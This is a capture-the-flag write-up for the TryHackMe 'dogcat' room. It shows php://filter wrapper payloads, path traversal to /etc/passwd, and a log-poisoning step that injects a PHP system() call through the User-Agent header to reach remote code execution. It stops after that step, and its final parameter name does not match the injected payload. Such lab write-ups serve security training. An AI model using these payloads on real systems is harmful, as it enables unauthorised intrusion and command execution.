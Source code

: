 Writeup for [dogcat](https://tryhackme.com/r/room/dogcat)

Recon
```
1. Inspect the code
<a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
2. Notice ?view=dog and ?view=cat, can using php wrapper
```
2. Exploit
Using wrapper payloads from [this repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-phpfilter)
`?view=php://filter/convert.base64-encode/resource={resource}`

And after a while, we got a hint at
`?view=php://filter/convert.base64-encode/resource=dog`
give as `PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K` which is base64 encoded
`<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />` which is directory somewhere on the system.

Next try
`?view=php://filter/convert.base64-encode/resource=dog/../index` and we got a code of index
```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

Now we can see that code has vulnerabilities: 
`if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat'))` with ($_GET['view']) alow us using LFI or Path Traversal attacks vectors. If input is not properly sanitized or validated. An attacker could potentially execute arbitrary PHP code by manipulating the view parameter.
So if our user input contain «dog» or «cat», and ext is None we can see local files
`/?view=cat/../../../../../../etc/passwd&ext=` > we got access
`view-source:http://10.10.94.191/?view=cat/../../../../../../var/log/apache2/access.log&ext=` give us a new vector to RCE via log file with UserAgent HTTP header
```
curl "http://10.10.71.22/" -H "User-Agent: <?php system(\$_GET['command']); ?>"
Give us at log <b>Warning</b>:  system(): Cannot execute a blank command in <b>/var/log/apache2/access.log</b> on line <b>9</b><br />
Expoit ?view=cat/../../../../../../var/log/apache2/access.log&ext&c=id
```


